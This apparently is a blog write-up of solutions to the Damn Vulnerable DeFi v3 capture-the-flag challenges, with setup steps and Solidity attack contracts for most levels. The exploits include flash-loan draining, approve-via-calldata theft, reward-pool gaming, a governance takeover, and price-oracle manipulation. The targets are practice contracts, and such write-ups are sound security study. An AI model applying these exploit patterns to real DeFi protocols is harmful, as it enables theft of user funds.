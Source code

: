 ```yaml
---
title: Damn vulnerable defi Challenges
date: 2023-03-25 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

## Challenge1

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```

## Challenge2

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

## Challenge3

Use ERC20 approve function and not it will not affect the balance when making flashloan.

```javascript
function attack(TrusterLenderPool pool,DamnValuableToken _token) external {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)",address(this),type(uint256).max);
    pool.flashLoan(0,address(this),address(_token),data);
    _token.transferFrom(address(pool),msg.sender,_token.balanceOf(address(pool)));
}
```

## Challenge4

Use our deployed contract to send back the token using deposit function.After the flashloan call withdraw function to take our tokens back.
Do not forget to set the receive function for receiving tokens.
Use \_to.call function to send tokens,it is the current recommended method to use.

```javascript
contract Attack {
     function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value:msg.value}();
     }

     function attack(SideEntranceLenderPool pool,address payable player) external {
        //make a flashloan
        pool.flashLoan(1000 ether);
        //get the money
        pool.withdraw();
        //send to palyer
        (bool sent,) = player.call{value:1000 ether}("");
        require(sent, "Failed to send Ether");
     }

     receive() external payable {}
}
```

## Challenge5

The reward pool only count the amount of deposit. We can use flash loan to borrow some DVT token and claim the reward token at the same time.Here goes the code:

```javascript
contract TheRewardAttack {
    //flashloan pool address.
    FlashLoanerPool  private immutable pool;
    DamnValuableToken private immutable DVTtoken;
    TheRewarderPool private immutable RewardPool;
    RewardToken private immutable RdToken;
    address private owner;

    constructor(FlashLoanerPool _pool,DamnValuableToken _token,TheRewarderPool _RewardPool,RewardToken _Rdtoken,address player) {
        pool = _pool;
        DVTtoken = _token;
        RewardPool = _RewardPool;
        RdToken = _Rdtoken;
        owner = player;
    }

    function receiveFlashLoan(uint256 amount) external{
        //do something.
        //deposit to reward pool
        //approve amount to the reward pool
        DVTtoken.approve(address(RewardPool),amount);

        RewardPool.deposit(amount);

        //claim the rewards
        RewardPool.distributeRewards();

        //withdraw DVTtokens
        RewardPool.withdraw(amount);

        //return back DVT token.
        DVTtoken.transfer(address(pool),amount);

        //send reward token to our player.
        RdToken.transfer(owner,RdToken.balanceOf(address(this)));
    }

    function attack(uint256 amount) external{
        pool.flashLoan(amount);
    }
}
```

## Challenge6

This challenge is similar to the previous one.Firstly we use flashloan borrow some DVT token.Secondly we use the DVT token make a governance action.Finally two days later we make a executeAction to claim the DVT token to our attack contact and send it to our player.Here goes the entire code:

```javascript
pragma solidity ^0.8.0;

import "./SimpleGovernance.sol";
import "./SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "hardhat/console.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract SelfieAttack is IERC3156FlashBorrower {

    SelfiePool private immutable pool;
    SimpleGovernance private immutable governance;
    DamnValuableTokenSnapshot private immutable token;

    constructor(SelfiePool _pool,SimpleGovernance _governance,DamnValuableTokenSnapshot _token) {
        pool = _pool;
        governance = _governance;
        token = _token;
    }

    function onFlashLoan(address initiator,address _token,uint256 amount,uint256 fee,bytes calldata _data) external returns (bytes32){
        //receive DVT token from pool
        console.log("receive token:",DamnValuableTokenSnapshot(_token).balanceOf(address(this)));

        //make a snapshot ?
        DamnValuableTokenSnapshot(_token).snapshot();

        //submit an governance action
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)",address(this));

        governance.queueAction(address(pool),0,data);

        //approve DVT token to lending pool.
        DamnValuableTokenSnapshot(_token).approve(address(pool),amount);

        //return success bytes
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function exeAction(uint256 actionId) external {
        //execute the action
        governance.executeAction(actionId);
        //send token to mother fuck sender please
        DamnValuableTokenSnapshot(token).transfer(msg.sender,DamnValuableTokenSnapshot(token).balanceOf(address(this)));
    }

    function attack(uint256 borrowAmount) external {
        //make a DVT token flashloan
        pool.flashLoan(IERC3156FlashBorrower(this),address(token),borrowAmount,'0x');
    }
}
```

## Challenge7

Get the private key from the leak data,and then use source address to change the price of NFT.Finnaly sell the NFT for a profit.

## Challenge8

The cost amount for lending is pegging with uniswap pool:

> uniswapPair.balance \* (10 \*\* 18) / token.balanceOf(uniswapPair)

Therefore,we use swap all our DVT token to ETH,and then the number of uniswapPair.balance/token.balanceOf(uniswapPair) goes down.After that happened we can deposit our eth to borrow all the DVT token in lending pool.

```javascript
contract PuppetAttack {

    address public immutable uniswapExchange;
    DamnValuableToken public immutable token;
    PuppetPool public immutable pool;
    constructor(address tokenAddress, address _uniswapExchange,PuppetPool _pool){
        token = DamnValuableToken(tokenAddress);
        uniswapExchange = _uniswapExchange;
        pool = _pool;
    }

    function attack() external payable {
        //receive DVT
        token.transferFrom(msg.sender,address(this),token.balanceOf(msg.sender));

        //approve DVTtoken to uniswap pool
        token.approve(uniswapExchange,token.balanceOf(address(this)));

        //swap all DVT token to eth in uniswap pool.
        UniswapExchangeInterface(uniswapExchange).tokenToEthSwapInput(token.balanceOf(address(this)), 1, block.timestamp+5);

        //borrow DVT token by depositing eth.
        pool.borrow{value:address(this).balance}(token.balanceOf(address(pool)),msg.sender);
    }

    receive() external payable{}
}
```
